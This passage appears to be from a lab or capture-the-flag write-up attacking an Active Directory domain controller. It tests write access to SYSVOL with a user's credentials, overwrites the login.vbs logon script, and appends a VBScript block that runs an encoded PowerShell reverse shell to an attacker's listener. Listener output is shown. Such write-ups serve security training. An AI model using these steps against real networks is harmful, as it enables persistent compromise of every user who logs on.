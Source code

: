 Despite `nxc` reporting read access on `SYSVOL`, I test write permissions directly (trust, but verify):
```
❯ smbclient //dc.baby2.vl/SYSVOL -U 'Carl.Moore%Carl.Moore'
Try "help" to get a list of possible commands.
smb: \> cd baby2.vl/scripts
smb: \baby2.vl\scripts\> dir
  .                                   D        0  Mon Aug 25 10:30:39 2025
  ..                                  D        0  Tue Aug 22 19:43:55 2023
  login.vbs                           A      992  Sat Sep  2 16:55:51 2023

		6126847 blocks of size 4096. 1944931 blocks available

# quick destructive test to check writability;
smb: \baby2.vl\scripts\> put users login.vbs
putting file users as \baby2.vl\scripts\login.vbs (1.4 kB/s) (average 1.4 kB/s)
```

The write **works**. That means I can poison `login.vbs` so that the next user who logs on (like Amelia) triggers my payload.

### Crafting the payload
I append a one-liner that launches a PowerShell reverse shell (any small stager works). The trick is to keep the original drive-mapping logic so users don’t immediately complain—minimal impact, minimal detection. Example flow:
1. Copy the original `login.vbs` locally.
2. Append a VBScript block that spawns PowerShell (base64-encoded command) back to my attacker `nc` listener.
3. Upload the modified script back to `SYSVOL`.

```
WScript.Echo "Failed to map " & driveLetter & ": " & Err.Description
    End If
    
    Set objNetwork = Nothing
End Sub

Set cmdshell = CreateObject("Wscript.Shell")
cmdshell.run "powershell -e JABjAGwAaQBlAG4AdAAgAD0AIABO..."

MapNetworkShare "\\dc.baby2.vl\apps", "V"
MapNetworkShare "\\dc.baby2.vl\docs", "L"
```

Listener:
```bash
❯ penelope
[+] Listening for reverse shells on 0.0.0.0:4444 →  127.0.0.1 • 192.168.226.139 • 172.17.0.1 • 10.10.14.148 • 172.18.0.1
➤  🏠 Main Menu (m) 💀 Payloads (p) 🔄 Clear (Ctrl-L) 🚫 Quit (q/Ctrl-C)
```

Wait a minute or so for a domain user logon event and…

